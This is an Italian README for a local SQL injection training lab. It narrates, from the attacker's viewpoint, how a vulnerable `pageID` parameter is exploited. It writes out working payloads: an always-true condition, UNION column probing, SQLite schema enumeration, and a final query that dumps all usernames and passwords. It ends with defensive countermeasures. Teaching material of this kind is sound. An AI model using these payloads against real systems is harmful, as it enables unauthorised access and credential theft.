

# Laboratorio SQL Injection (SQLi)

Questo laboratorio racconta, dal punto di vista dell'attaccante, la progressione logica di un exploit SQL Injection. 
Ogni fase descrive obiettivo, azione e risultato osservabile. L'uso è esclusivamente didattico.

## Utilizzo del laboratorio
1. Avvia il servizio con Docker Compose (vedi README principale).
2. Riproduci in sequenza i payload, osservando differenze di output.
3. Prendi nota dei passaggi che abilitano l'escalation informativa.

L'applicazione target è raggiungibile all'indirizzo [http://localhost:7001](http://localhost:7001).

---

## 1. Ricognizione – Identifico il punto d'ingresso
Accedo alla pagina iniziale e clicco su «Welcome». Il link /home accetta un parametro `pageID`. L'interfaccia mostra un contenuto coerente con una query del tipo:

```
SELECT ... FROM pages WHERE id = <input>
```

Obiettivo: verificare se l'input scorre senza sanitizzazione verso il database.


## 2. Sonda di rottura – Introduco un apostrofo
Inserisco un semplice `'` nel parametro. L'applicazione genera un errore SQL.


Risultati estratti dall'errore:
- Conferma del motore: SQLite
- Traccia parziale della query → mi aiuta a modellare i payload successivi

Conclusione: input non parametrizzato. Posso manipolare la logica della WHERE.

## 3. Manipolazione logica – Forzo condizione sempre vera
Inietto un'espressione booleana sempre vera per espandere il dataset.
```
1 or 1=1
```
L'app risponde senza errore e dietro le quinte la query ritorna tutte le righe della tabella `pages` (l'interfaccia ne mostra una sola). Confermo la leva di controllo variando l'ordinamento:
```
1 or 1=1 order by 1 desc
```


Interpretazione: la catena è vulnerabile a una UNION-based injection.

## 4. Scoperta struttura output – Test UNION
Obiettivo: capire quante colonne e quali posizioni sono effettivamente renderizzate. Provo una UNION a tre colonne.
```
1 UNION SELECT 1, 2, 3
```
Osservo in pagina i valori placeholder che mi indicano le posizioni sfruttabili.



## 5. Enumerazione schema – Tabelle
Confermata la superficie, passo all'enumerazione dello schema usando `sqlite_master` (escludo tabelle interne `sqlite_%`).
```
1 union select 1, 2, (SELECT GROUP_CONCAT(name, ', ') FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%')
```
Risultato: elenco delle tabelle applicative. Individuo `users` come target di maggior valore.


## 6. Enumerazione schema – Colonne sensibili
Interrogo la struttura di `users` tramite PRAGMA per identificare i campi estraibili.
```
1 union select 1, 2, (SELECT GROUP_CONCAT(name, ', ') FROM pragma_table_info('users'))
```
Ottengo i nomi delle colonne: tra queste `UserName` e `Password`.


## 7. Esfiltrazione – Aggrego credenziali
Costruisco una UNION che concatena i valori per una lettura immediata.
```
1 UNION SELECT 1, (SELECT GROUP_CONCAT(UserName, ', ') FROM users), (SELECT GROUP_CONCAT(Password, ', ') FROM users)
```
Risultato: elenco utenti e password (in chiaro o hash deboli). Impatto dimostrato.


---

## Rischi evidenziati
- Assenza di prepared statements
- Error handling verboso che rivela stack e struttura
- Assenza di validazione tipologica su `pageID`
- Mancanza di principle of least privilege (lettura indiscriminata)

## Contromisure consigliate
- Parametrizzare tutte le query (prepared / ORM sicuro)
- Validare e castare input numerici (rifiutare pattern anomali)
- Implementare messaggi d'errore generici lato utente
- Limitare i permessi DB (account con privilegi minimi)
- Logging e alert su pattern UNION / anomalie

---

Uso esclusivamente didattico. Non replicare contro sistemi non autorizzati.
